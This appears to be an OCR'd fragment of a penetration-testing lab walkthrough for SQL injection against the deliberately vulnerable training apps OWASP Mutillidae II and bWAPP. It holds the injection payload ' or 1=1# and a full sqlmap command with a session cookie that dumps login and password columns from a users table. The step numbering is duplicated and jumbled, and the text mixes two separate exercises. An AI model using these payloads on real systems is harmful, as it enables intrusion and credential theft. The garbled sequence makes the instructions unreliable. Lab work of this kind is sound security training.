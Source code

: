 Step 6 : Click on OWASP Mutllidae II.
Step 7 :Select OWASP 2013 select injection(sql) , Select sql i-extract data and select user
info(SQL) and pass the payload ‘ or 1=1# .
Step 6 : Click on bWAPP.
Step 7 : Create user account and Select SQL Injection (Login Form) .
Step 8: Select below login form link .
Step 8: Select kali terminal
Step 10: sqlmap -u "http://192.168.73.129/bWAPP/sqli_3.php" --cookie "security_level=0;
acopendivids=swingset,jotto,phpbb2,redmine;acgroupswithpersist=nada;
PHPSESSID=li2f6b9q19kkp2frtdnqd421p1"—data
"login=yehova&password=hihi&form=submit" -D bwapp -T users -C login,password --dump
--batch
